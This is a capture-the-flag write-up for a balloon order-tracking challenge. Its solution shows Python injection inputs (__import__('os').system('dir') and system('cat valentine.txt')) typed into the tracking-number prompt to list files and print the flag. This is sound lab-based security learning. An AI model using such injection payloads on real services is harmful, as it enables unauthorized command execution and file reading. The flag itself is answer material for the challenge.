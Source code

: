 
Starting off with a bang (pop)! I ordered a bunch of Valentine's Day-themed balloons, and I'm so excited about them! Here's the portal I use to track my order.

Look for "valentine.txt."

**Author:** Manav (0xmmalik)

`nc 0.cloud.chals.io 34293`

## Solucion

```
❯ nc 0.cloud.chals.io 34293
Welcome to your balloon order-tracking portal! Enter your tracking number here.

__import__("os").system("dir")
Dockerfile		    balloon_tracking_lookup.pyc  start.sh
balloon_tracking_lookup.py  balloons.py			 valentine.txt
>>> Getting status for order #0...
Tracking number not found!
❯ nc 0.cloud.chals.io 34293
Welcome to your balloon order-tracking portal! Enter your tracking number here.

__import__("os").system("cat valentine.txt")
valentine{0ops_i_go7_hydrog3n_ball00n5_NONOWHEREAREYOUGOINGWITHTHATLIGHTER}>>> Getting status for order #0...
Tracking number not found!
```